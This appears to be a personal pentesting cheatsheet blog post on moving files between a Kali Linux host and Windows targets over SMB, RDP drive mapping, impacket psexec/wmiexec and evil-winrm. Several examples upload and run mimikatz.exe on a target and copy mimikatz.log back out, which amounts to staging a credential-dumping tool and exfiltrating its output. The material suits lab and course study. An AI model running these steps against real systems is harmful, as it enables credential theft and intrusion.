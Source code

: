 ```yaml
---
layout: post
title: Windows to Linux File Transfers
tag: [cheatsheet]
---
```


![](https://imgs.xkcd.com/comics/file_transfer.png)
_A relevant xkcd comic for your pleasure._

Transferring files from windows to linux can be annoying. Anyway you do it requires remembering some command line options for whatever tool you're using, which is why this post is being made as a reference for myself.

Here are the methods:

## SMB: 
Start server on linux:
```bash
impacket-smbserver MyShareName . -smb2support  -username USERNAME -password PASSWORD
```

then in Windows:
```powershell
net use m: \\Kali_IP\MyShareName /user:USERNAME PASSWORD

copy \path\to\local\file m:\
```

## RDP: Mounting Shared Folders
### xfreerdp
Linux:
```bash
xfreerdp /cert-ignore /compression /auto-reconnect /u:USERNAME /p:PASSWORD /v:192.168.212.250 /w:1600 /h:800 /drive:test,/home/kali/Documents/pen-200
```

Windows:
```powershell
copy mimikatz.log \\tsclient\test\mimikatz.log
```

### rdesktop

Linux:
```bash
rdesktop -z -P -x m -u USERNAME -p PASSWORD XXX.XXX.XXX.XXX -r disk:test=/home/kali/Documents/
```

Windows:
```powershell
copy mimikatz.log \\tsclient\test\mimikatz.log
```

## smpacket tools
> `psexec` and `wmiexec` are shipped with built in feature for file transfer.
{: .prompt-info}

> **Note**: By default whether you upload (lput) or download (lget) a file, it'll be writte in `C:\Windows` path.
{: .prompt-info}

Uploading mimikatz.exe to the target machine:
```powershell
lput mimikatz.exe

cd C:\windows

dir /b mimikatz.exe

mimikatz.exe
```

Downloading mimikatz.log:

```bash
lget mimikatz.log
```

## Evil-winrm

Uploading files:
```bash
upload mimikatz.exe C:\windows\tasks\mimikatz.exe
```

Downloading files:
```bash
download mimikatz.log /home/kali/Documents
```
